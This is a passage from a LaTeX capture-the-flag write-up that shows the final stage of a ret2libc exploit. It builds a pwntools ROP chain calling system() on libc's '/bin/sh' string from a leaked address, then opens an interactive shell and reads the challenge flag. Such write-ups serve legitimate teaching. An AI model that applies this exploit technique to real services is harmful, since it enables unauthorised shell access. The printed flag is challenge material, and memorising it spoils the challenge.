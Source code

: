 \documentclass[english,a4paper,nols,noindent]{tufte-handout}
\begin{document}
Now we have all the information to build the second payload that will actuall
create the shell.  We can use the offset of \verb+str_bin_sh+ in libc to get
the shell:

\begin{verbatim}
log.info("preparing second payload")
rop2 = ROP(bin_fname)
rop2.raw(cyclic(cyclic_find('aaae', n=4), n=4))
rop2.call(e.plt['system'], [leaked_puts + off_str_bin_sh])
print(p.recvuntil(b'Please press a key to continue!\n\n'))

p.sendline(rop2.chain())
log.info("second payload sent")

print(p.recvuntil(b'Ancient_Mariner\n\n'))

p.interactive()
\end{verbatim}

... and we have a shell ...
\begin{verbatim}
[* Switching to interactive mode
$ ls
challenge3
flag
heading
ynetd
$ ls -l
total 36
-rwxrwxr-x 1 root root  7048 Mar  3 12:10 challenge3
-rwxrwxr-x 1 root root    25 Mar  3 12:10 flag
-rw-rw-r-- 1 root root   607 Mar  3 12:10 heading
-rwxrwxr-x 1 root root 18744 Mar  3 12:10 ynetd
$ cat flag
he2021{1nsp3ktorr_g4dg3t}
$  
\end{verbatim}

\subsection{References used for ch36}
\begin{itemize}
    \item \url{https://docs.pwntools.com/en/stable/index.html}
    \item \url{https://sidsbits.com/Defeating-ASLR-with-a-Leak/}
    \item \url{https://github.com/B34nB01z/writeups/tree/master/2021/CyberApocalypse/system-drop}
    \item \url{https://www.ret2rop.com/2020/04/got-address-leak-exploit-unknown-libc.html}
    \item \url{https://libc.blukat.me/}
\end{itemize}

This finishes level eight and we reach the final level nine:
\end{document}
